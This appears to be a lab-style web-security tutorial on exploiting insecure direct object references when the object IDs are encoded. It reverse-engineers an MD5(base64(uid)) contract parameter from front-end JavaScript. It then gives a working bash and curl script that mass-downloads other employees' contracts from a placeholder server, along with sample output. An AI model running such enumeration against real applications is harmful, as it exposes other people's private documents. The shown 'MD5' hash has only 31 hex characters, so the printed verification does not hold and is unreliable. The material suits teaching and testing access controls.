 # Bypassing Encoded References

In some web applications, object references are not exposed in clear text but are instead hashed or encoded, making enumeration more challenging. However, with the right techniques, it is still possible to exploit these vulnerabilities. This guide will demonstrate how to bypass encoded references using an example from an Employee Manager web application.

**Example Scenario: Employee Contracts**

Consider the following URL for accessing employee contracts:

```
http://SERVER_IP:PORT/contracts.php
```

When you click on a contract link, such as `Employment_contract.pdf`, the application sends a POST request to `download.php` with a hashed contract parameter:

```
contract=cdd96d3cc73d1dbdaffa03c6cd7339b
```

This hash appears to be an MD5 hash, which is a one-way function, making it impossible to decode directly. To exploit this, we can try to find the original value that corresponds to this hash by testing various inputs (like user IDs, usernames, etc.) to see if any of their hashes match.

**Function Disclosure**

A common mistake in web applications is performing sensitive operations on the front end. In this case, the application uses a JavaScript function to calculate the hash for the contract parameter. The relevant JavaScript function might look like this:

```javascript
function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}
```

Here, the function takes a user ID (`uid`), base64 encodes it, and then hashes it using MD5. For example, if the function is called with `downloadContract('1')`, the value being hashed is the base64 encoded string of `1`.

To verify this, you can run the following command to reproduce the hash:

```bash
echo -n 1 | base64 -w 0 | md5sum
```

This should yield the same hash as the one in the request:

```
cdd96d3cc73d1dbdaffa03c6cd7339b
```

**Mass Enumeration of Contracts**

Now that we understand how the hashing works, we can enumerate contracts for other employees by calculating the hashes for their user IDs and making POST requests to download their contracts.

1. **Bash Script for Mass Enumeration** We can create a Bash script to automate the process of downloading contracts for multiple employees. The script will calculate the MD5 hash for each user ID from 1 to 10 and send a POST request to download the corresponding contract.

```bash
#!/bin/bash

for i in {1..10}; do
    hash=$(echo -n $i | base64 -w 0 | md5sum | tr -d ' -')
    curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
done
```

2. **Running the Script** After saving the script (e.g., as `exploit.sh`), you can run it in your terminal:

```bash
bash ./exploit.sh
```

3. **Expected Output** The script will download the contracts for employees with IDs 1 through 10, saving them as PDF files in your current directory:

```
contract_006d1236aee3f92b8322299796ba1989.pdf
contract_0b24df25fe628797b3a50ae0724d2730.pdf
contract_0b7e7dee87b1c3b98e72131173dfbbbf.pdf
contract_3e57e65a34ffcb2e93cb545d024f5bde.pdf
contract_5d4aace023dc088767b4e08c79415dcd.pdf
contract_8b9af1f7f76daf0f02bd9c48c4a2e3d0.pdf
contract_b523ff8d1ced96cef9c86492e790c2fb.pdf
contract_cdd96d3cc73d1dbdaffa03c6cd7339b.pdf
contract_d477819d240e7d3dd9499ed8d23e7158.pdf
contract_f7947d50da7a043693a592b4db43b0a1.pdf
```
